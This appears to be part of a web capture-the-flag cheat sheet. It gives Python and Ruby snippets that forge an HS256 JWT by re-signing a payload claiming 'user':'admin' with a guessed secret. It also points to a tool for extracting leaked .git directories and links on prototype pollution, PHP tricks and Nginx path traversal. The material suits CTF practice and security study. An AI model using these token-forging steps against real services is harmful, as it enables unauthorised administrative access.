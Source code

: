       ```python
      import hmac
      import hashlib
      import base64

      jwt = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM"

      h, p, s = jwt.split(".")

      def sign(str, key):
          return base64.urlsafe_b64encode(hmac.new(key, str, hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

      key = "something"
      payload = "eyJ1c2VyIjoiYWRtaW4ifQo"
      print(h + "." + payload + "." + sign(h + "." + payload, key))
      ```
    
    - Using ruby interactive (with hashcat):
  
      ```bash
      $ gem install jwt 
      $ irb

      require 'jwt'

      payload = {"user":"admin"}

      JWT.encode payload, "SECRET", "HS256"
      ```

## Leaked .git
We can [this](https://github.com/internetwache/GitTools) tools to extract leaked `.git/` directory



## Other
> - [https://github.com/Kirill89/prototype-pollution-explained](https://github.com/Kirill89/prototype-pollution-explained)
- [https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4](https://medium.com/@Asm0d3us/part-1-php-tricks-in-web-ctf-challenges-e1981475b3e4)
- [Nginx alias path traversal](https://hackerone.com/reports/312510)

